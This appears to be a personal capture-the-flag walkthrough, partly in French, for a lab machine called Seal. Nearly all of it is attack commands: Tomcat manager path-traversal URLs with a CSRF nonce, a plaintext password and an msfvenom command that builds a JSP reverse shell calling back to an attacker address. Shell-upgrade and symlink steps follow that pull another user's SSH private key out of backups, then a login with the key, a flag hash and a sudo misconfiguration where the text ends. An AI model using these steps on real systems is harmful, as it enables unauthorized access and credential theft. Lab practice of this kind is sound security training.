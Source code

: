 #ip 10.10.10.250 

#user flag : 

https://10.10.10.250/host-manager/text
https://10.10.10.250/conf/tomcat-users.xml 
https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat

user : tomcat
pass : 42MrHBf*z8{Z%

path transvercal tomcat :
http://10.10.10.250:8080

https://10.10.10.250/manager/status/..;/html
https://10.10.10.250/manager/jmxproxy/..;/html/upload?org.apache.catalina.filters.CSRF_NONCE=D9AE2451A740E9F7B10DB346C6B63F63

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f war -o rev.war  

#commande reverse shell :

export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
ln -s /home/luis/.ssh /opt/backups/uploads/
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
cp /opt/backups/archives/backup-2021-08-02-01:00:32.gz rsa.gz
gzip -kd rsa.gz
tar -xf rsa
cd /dashboard/uploads
python3 -m http.server 9003
http://10.10.10.250:9003
telecharger fichier rsa
sudo ssh -i id_rsa luis@10.10.10.250 
cat user.txt
d640b7d24c41368455c4e15f492427db



#root flag :
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *


